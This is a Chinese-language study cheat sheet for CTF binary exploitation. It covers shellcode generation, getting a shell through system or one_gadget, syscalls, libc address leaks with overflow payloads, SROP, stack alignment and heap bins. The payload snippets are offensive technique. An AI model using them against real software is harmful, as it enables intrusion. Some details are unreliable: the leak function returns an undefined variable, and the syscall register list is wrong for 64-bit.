

# 常用基础知识

## 0x001-获取系统权限方式

### 编写shellcode

使用pwntools生成shellcode

```
context(arch='amd64', os='linux')
context(arch='i386', os='linux')

shellcode = asm(shellcraft.sh())
```

### 执行命令

通过控制程序执行流程，替换相关函数地址为system函数地址，并利用程序中存在的、泄露的或输入的相关字符串，获取系统权限。

1. system("/bin/sh")
2. system("sh")
3. system("$0")

### 一句话getshell

one_gadget是指在libc库中存在直接执行execve("/bin/sh", 0, 0)指令的地址，可通过搜索获取其偏移，然后直接调用。



### Linux系统调用syscall和int 0x80

系统调用常见函数(64位系统)

|  系统调用号  |  函数  |
|  :----:  | :----:  |
|  0  |  read(fd, buf, size)  |
|  1  |  write(fd, buf, size)  |
|  15  |  rt_sigreturn  |
|  59  |  execve(cmd, 0, 0)  |

https://blog.csdn.net/sinat_26227857/article/details/44244433

```
rax 系统调用号
rbx 参数1
rcx 参数2
rdx 参数3
```

## 0x002-敏感函数

|  敏感函数  |  结束标志  |
|  :----:  | :----:  |
|  printf  |  \x00  |
|  scanf  |  -  |
|  puts  |  -  |
|  gets  |  -  |
|  read  |  -  |
|  write  |  -  |
|  strcpy  |  \x00  |
|  strcmp  |  \x00  |
|  strncmp  |  比较长度为0则结果为0  |
|  strlen  |  \x00  |

### 函数调用方式

64位系统参数传递规则：

> 当参数少于7个时，参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9。

> 当参数大于等于7个时，前6个与前面一样，之后的依次从右向左放入栈中（同32位）。

在溢出后，如果调用的是函数的plt地址或者got地址，则需要在栈中存放返回地址，栈中的数据格式如下：
```
system_plt + 返回地址 + 参数
```

如果程序中有直接call system地方，则不需要返回地址，可以直接在栈中放参数，栈中的数据格式如下：
```
call_system + 参数
```

## 0x003-泄露libc地址

### DynELF

```
def leak(addr):
    payload = b"A" * 140 + p32(write_plt) + p32(main_addr) + p32(1) + p32(addr) + p32(4)
    p.sendline(payload)
    result_addr = p.recv(4)
    return return_addr

d = DynELF(leak, elf=elf)
system_addr = d.lookup('system', 'libc')
```

### LibcSearcher

```
payload = b"\x00" * 88 + p64(pop_rdi_ret) + p64(gets_got) + p64(puts_plt) + p64(main_addr)
p.sendline(payload)
gets_real_addr = u64(p.recv(6).ljust(8, b'\0'))
libc = LibcSearcher("gets", gets_real_addr)

libcbase = gets_real_addr - libc.dump("gets")
system_addr = libcbase + libc.dump("system")
bin_sh_addr = libcbase + libc.dump("str_bin_sh")
```

## 0x004-构造SROP

```
sigframe = SigreturnFrame()
sigframe.rax = 59
sigframe.rdi = bin_sh_addr
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rip = syscall_ret_addr
```

https://www.wangan.com/docs/1081

## 0x005-栈对齐

在ubuntu18以上的版本，64位程序中如果调用system("/bin/sh")，则需要考虑堆栈平衡问题。

因为在ubuntu18以上的版本，64位的程序中调用system函数时，有如下指令


> movaps : 该指令必须16字节对齐，说明 **$rsp+0x40** 处的地址值必须是16的倍数

那么就需要在调用call system时，保证 **$rsp+0x40** 处的地址值是16的倍数。

## 0x006-堆分配中的bins

### fastbins

fastbins为单向链表，采用LIFO（后进先出）的方式。

### unsortedbin

来源：
1. 当一个较大的 **chunk** 被分割成两半后，如果剩下的部分大就会被放到 **unsortedbin** 中。
2. 释放一个不属于 **fastbin** 的 **chunk**，并且该 **chunk** 不和 **top chunk** 紧邻时，该 **chunk** 会被首先放到 **unsortedbin** 中。
3. 当进行 malloc_consolidate 时，如果不是和 **top chunk** 紧邻的话，可能会把合并后的 **chunk** 放到 **unsortedbin** 中。

使用：
1. **unsortedbin** 在使用的过程中，采用的遍历顺序是FIFO，即插入的时候插入到 **unsortedbin** 的头部，取出的时候从链表尾获取。
2. 在程序 malloc 时，如果在 **fastbin、smallbin** 中找不到对应大小的 **chunk**，就会尝试从 **unsortedbin** 中寻找 **chunk**。如果取出来的 **chunk** 大小刚好满足，就会直接返回给用户，否则就会把多余的 **chunk** 分别插入到对应的 **bin** 中。

**unsortedbin** 有一个特性，就是如果 **unsortedbin** 只有一个bin ，它的 **fd** 和 **bk** 指针会指向同一个地址（ **unsortedbin** 链表的头部），这个地址相对 **libc** 固定偏移 **0x3c4b78** ，所以得到这个 **fd** 的值，然后减去固定偏移，即可得到 **libc** 的基地址。

### smallbins

### largebins